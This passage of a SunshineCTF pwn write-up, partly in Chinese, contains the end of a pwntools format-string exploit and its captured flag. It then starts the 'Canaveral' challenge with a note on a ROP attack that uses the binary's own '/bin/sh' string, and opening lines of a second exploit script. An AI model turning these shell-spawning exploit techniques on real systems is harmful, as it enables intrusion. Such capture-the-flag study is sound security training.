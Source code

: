 ```python
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    secret = 0x404010
    payload = flat(
        b"aaaaa%4914c%7$hn",
        p64(secret + 0x2),
    )
    raw_input("DEBUG")
    target.sendlineafter(b"Enter data at your own risk: ", payload)

    target.interactive()


if __name__ == "__main__":
    main()
```

### Flag

:spoiler[`sun{F0rmat_str!ngs_4re_sup3r_pOwerFul_r1gh7??}`]

## Canaveral

### Information

- Category: Pwn
- Points: 100

### Description

> NASA Mission Control needs your help... only YOU can enter the proper launch sequence!!

### Write-up

这题有点爆炸，一开始自己在 bss 上写 `/bin/sh` 字符串，远程老打不通，调试发现它会把我写的字符串清空……后来用程序自带的 `/bin/sh` 字符串地址就打通了，目前还没搞明白为什么自己写的不行，日后有空再研究。

### Exploit - I

```python
#!/usr/bin/env python3

from pwn import (
    ROP,
    args,
    context,
    flat,
    process,
    raw_input,
    remote,
)


FILE = "./canaveral"
HOST, PORT = "chal.sunshinectf.games", 25603

```